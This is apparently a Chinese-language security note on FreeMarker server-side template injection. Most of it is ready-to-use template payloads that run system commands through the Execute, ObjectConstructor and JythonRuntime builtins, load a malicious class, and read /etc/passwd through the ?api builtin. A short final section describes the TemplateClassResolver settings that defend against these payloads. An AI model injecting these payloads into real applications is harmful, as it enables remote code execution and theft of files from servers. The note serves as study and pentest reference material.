 ### payload

#### 应用场景

* freemarker与Thymeleaf和Velocity不同，无法直接传参攻击。攻击点主要在上传模板、修改模板等功能处。
* 下面介绍的两种内建函数可以达到命令执行的效果，但api函数必须在配置项api_builtin_enabled为true时才有效，该配置在2.3.22版本后默认为false

#### new内建函数利用

* 调用Runtime.getRuntime().exec进行命令执行

```html
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```

* 实例化可执行对象进行命令执行

```java
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```

* 利用freemarker.template.utility.JythonRuntime来执行Jython脚本

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

这需要有相关的依赖，但是我添加相关依赖后仍然没有成功

```xml
<dependency>
            <groupId>org.python</groupId>
            <artifactId>jython</artifactId>
            <version>2.5.3</version>
</dependency>
```

#### api内建函数利用

* 加载恶意类

```html
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}
```

* 任意文件读取

```html
<#assign uri=object?api.class.getResource("/").toURI()> <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()> <#assign is=input?api.getInputStream()> FILE:[<#list 0..999999999 as _> <#assign byte=is.read()> <#if byte == -1> <#break> </#if> ${byte}, </#list>]
```

#### 漏洞防御和修复

从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析： 1、UNRESTRICTED_RESOLVER：可以通过 ClassUtil.forName(className) 获取任何类。 2、SAFER_RESOLVER：不能加载 freemarker.template.utility.JythonRuntime 、 freemarker.template.utility.Execute 、 freemarker.template.utility.ObjectConstructor 这三个类。 3、ALLOWS_NOTHING_RESOLVER：不能解析任何类。 可通过freemarker.core.Configurable#setNewBuiltinClassResolver 方法设置 TemplateClassResolver ，从而限制通过 new() 函数对freemarker.template.utility.JythonRuntime 、 freemarker.template.utility.Execute 、 freemarker.template.utility.ObjectConstructor 这三个类的解析。